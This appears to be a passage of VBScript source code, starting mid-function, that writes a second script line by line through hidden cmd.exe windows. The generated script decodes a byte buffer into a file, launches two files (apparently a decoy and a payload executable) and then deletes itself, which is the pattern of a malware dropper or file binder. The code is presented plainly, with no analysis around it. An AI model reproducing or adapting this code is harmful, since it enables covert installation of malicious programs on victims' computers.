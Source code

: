   shell.run "cmd.exe /c ""echo   Dim I, aBuf, Size, bStream                                                 >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   Size = UBound(Buf): ReDim aBuf(Size \ 2)                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   For I = 0 To Size - 1 Step 2                                               >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo       aBuf(I \ 2) = ChrW(Buf(I + 1) * 256 + Buf(I))                          >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   Next                                                                       >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   If I = Size Then aBuf(I \ 2) = ChrW(Buf(I))                                >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   aBuf=Join(aBuf, """")                                                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   Set bStream = CreateObject(""ADODB.Stream"")                               >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   bStream.Type = 1: bStream.Open                                             >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   With CreateObject(""ADODB.Stream"")                                        >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     .Type = 2 : .Open: .WriteText aBuf                                       >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo     .Position = 2: .CopyTo bStream: .Close                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   End With                                                                   >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   bStream.SaveToFile FileName, 2: bStream.Close                              >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo   Set bStream = Nothing                                                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo End Sub                                                                      >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo set shell=createobject(""Shell.Application"") >>"""&bs&"""    "" ",0,true
  shell.run "cmd.exe /c ""echo shell.ShellExecute """&dn&""" >>"""&bs&"""               "" ",0,true
  shell.run "cmd.exe /c ""echo shell.ShellExecute """&ename&""" >>"""&bs&"""               "" ",0,true
  shell.run "cmd.exe /c ""echo Set xa = CreateObject(""Scripting.FileSystemObject"") >>"""&bs&"""                      "" ",0,true
  shell.run "cmd.exe /c ""echo If xa.FileExists("""&bs&""") Then                     >>"""&bs&"""                      "" ",0,true
  shell.run "cmd.exe /c ""echo Set xb = xa.GetFile("""&bs&""")                       >>"""&bs&"""                      "" ",0,true
  shell.run "cmd.exe /c ""echo xb.Delete                                             >>"""&bs&"""                      "" ",0,true
  shell.run "cmd.exe /c ""echo End If                                                >>"""&bs&"""                      "" ",0,true
  shell.run "cmd.exe /c """&bs&"""   ",0,true
end function


